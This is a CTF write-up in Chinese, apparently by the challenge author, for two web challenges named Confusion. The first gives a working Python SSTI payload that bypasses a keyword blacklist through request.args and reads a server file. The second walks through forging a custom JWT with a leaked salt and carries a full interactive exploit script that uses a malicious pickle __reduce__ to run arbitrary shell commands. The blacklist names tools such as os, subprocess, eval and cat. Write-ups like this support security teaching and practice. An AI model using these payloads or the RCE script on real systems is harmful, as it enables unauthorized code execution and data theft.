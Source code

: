 # Confusion系列题目仅供娱乐
***
## Confusion1
* 首先浏览网站，在导航栏上只有index.php login.php register.php三个页面，打开导航栏上的login.php和register.php，发现是404页面

* 这个404页面乍一看和普通页面没什么不同，但是查看源码可以发现提示了flag的路径，所以题目意思就是要去读文件
* 但是login和register功能都没有实现，也就是说没有任何接受用户输入的地方

* 在index.php页面中有一张图片，图片的内容是一条大蟒蛇缠住了一只大象，很明显这只大象就是PHP的那只吉祥物，大蟒蛇也意味着Python了，所以这到题目应该和Python有关，但是还是不知道哪里可以接受到用户的输入

* 仔细翻阅网站，可以发现只有两处可被用户控制的地方，就是404页面和403页面中输出url的地方
* 首先试试这里有没有XSS，在404页面当我们输入XSS的payload时会弹出一个Nope，说明对某些字符进行了过滤，所以很问题明显就出在404页面

* 既然发现了404页面有问题，但是如果实在想不到SSTI的话那也没办法往下做了
* 测试{{5*5}}，发现404页面输出url的地方却输出了25，于是照着SSTI的思路往下做

* 后端其实用了Python来模拟PHP
* 我在黑名单中禁用了一些字符串，就不一一测试了，这里直接给出部分关键黑名单

````
	black_list = [
    'write', 'class', 'mro', 'read', '<', '>', '|', 'join'
    'os', 'sys', 'pop', 'del', 'rm', 'eval', 'exec', 'ls', 'cat',
    ';', '&&', 'catch_warnings', 'func_globals', 'pickle', 'import', 'subprocess', 'commands', 'input', 'execfile', 
    'reload', 'compile', 'execfile', 'kill', 'func_code'
]
```

关键字过滤可以使用request.args绕过

* POC: 
```
http://xx.xx.xx.xx:xxxx/{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?a=__class__&b=__mro__&c=__subclasses__&d=read
```


***
## confusion2
* confusion1做出来了这个题就应该很好做了，已经知道后端是Python
* Confusion2和Confusion1相比只是多了注册和登录的功能，在注册和登录页面有md5的验证码，说明和sql注入无关
* 注册一个账号后登录，发现cookies里除了正常的sessionid外还有一个token，根据经验发现这是Json web token
* 这个JWT是我自己实现的，加密的算法是sha256，并不是标准的加密算法，除了加密算法不同外其他的都和JWT一样
* 在JWT的data里存放了一个类似PHP序列化的字符串，在这个字符串中又有一个user_data的值，有经验的可以看出user_data的值为python的序列化字符串，将这个值手动反序列化后可以发现是一个列表，第一项是用户名，第二项是密码的md5，所以这里存在python的反序列化漏洞，用reduce方法可以RCE
* 根据Hint，sha256里还加了salt，而这个salt在Confusion1里可以获得，这样就可以伪造JWT通过验证
* 注意在php的序列化字符串中user_data的字符数量必须和前面的数字相等
* exp如下

```python
	# -*- coding:utf-8 -*- 
	import cPickle
	import os
	import sys
	import base64
	import hashlib
	import json
	import Cookie
	import commands
	import MD5proof
	import requests
	import re


	if os.name != 'posix':
	    print 'This script must be run on Linux!'
	    sys.exit(1)
	
	sess = requests.Session()
	url = 'http://xxxx:xxxx/'
	md5proof = MD5proof.Md5Proof(0, 6)
	SALT = '_Y0uW1llN3verKn0w1t_'
	username = 'srpopty'
	password = 'srpopty'
	cmd = 'ls'
	
	
	def base64_url_encode(text):
	    return base64.b64encode(text).replace('+', '-').replace('/', '_').replace('=', '')
	
	
	def base64_url_decode(text):
	    text = text.replace('-', '+').replace('_', '/')
	    while True:
	        try:
	            result = base64.b64decode(text)
	        except TypeError:
	            text += '='
	        else:
	            break
	    return result
	
	
	class PickleRce(object):
	    def __reduce__(self):
	        return commands.getoutput, (cmd, )
	
	
	def register(username, password):
	    while True:
	        verify = md5proof.Proof(re.findall('\'\),0,6\) === \'(.*?)\'</span>',
	                                           sess.get(url + 'login.php', allow_redirects=False).content)[0])
	        if len(verify) > 0 and '*' not in verify:
	            break
	    data = {
	        'username': username,
	        'password': password,
	        'verify': verify
	    }
	    ret = sess.post(url + 'register.php', data=data, allow_redirects=False)
	    if 'success' in ret.content:
	        return True
	    else:
	        print '[!] Register failed!'
	        print ret.content
	        return False
	
	
	def login(username, password):
	    while True:
	        verify = md5proof.Proof(re.findall('\'\),0,6\) === \'(.*?)\'</span>',
	                                           sess.get(url + 'login.php', allow_redirects=False).content)[0])
	        if len(verify) > 0 and '*' not in verify:
	            break
	    data = {
	        'username': username,
	        'password': password,
	        'verify': verify
	    }
	    ret = sess.post(url + 'login.php', data=data, allow_redirects=False)
	    if 'success' in ret.content:
	        return ret
	    else:
	        print '[!] Login failed!'
	        print ret.content
	        return None
	
	
	def create_jwt(kid, data):
	    jwt_header = base64_url_encode(
	        '{"typ":"JWT","alg":"sha256","kid":"%d"}' % kid)
	    jwt_payload = base64_url_encode('{"data":"%s"}' % data)
	    jwt_signature = base64_url_encode(hashlib.sha256(
	        jwt_header + '.' + jwt_payload + SALT).hexdigest())
	    return jwt_header + '.' + jwt_payload + '.' + jwt_signature
	
	
	def serialize():
	    payload = cPickle.dumps([PickleRce(), PickleRce()])
	    data = json.dumps('O:4:"User":2:{s:9:"user_data";s:%d:"%s";}' % (
	        len(payload), payload))[1:-1]
	    print data
	    return data
	
	
	if register(username, password) is not None:
	    login_result = login(username, password)
	    if login_result is not None:
	        try:
	            while True:
	                cmd = raw_input('>>> ')
	                cookies = login_result.cookies
	                # print '[*] Old Cookie token: ' + cookies['token']
	                jwt = create_jwt(int(re.findall('"kid":"(.*?)"', base64_url_decode(
	                    login_result.cookies['token'].split('.')[0]))[0]), serialize())
	                new_token = Cookie.SimpleCookie().value_encode(jwt)[1]
	                # print '[*] New Cookie token: ' + new_token
	                new_cookies = {
	                    'PHPSESSID': cookies['PHPSESSID'],
	                    'token': new_token
	                }
	                ret = requests.get(url + 'index.php',
	                                   allow_redirects=False, cookies=new_cookies)
	                print '[*] RCE result: ' + re.findall('<p class="hello">Hello ([\s\S]*?)</p>', ret.content)[0]
	        except KeyboardInterrupt:
	            print '\nExit.'

	```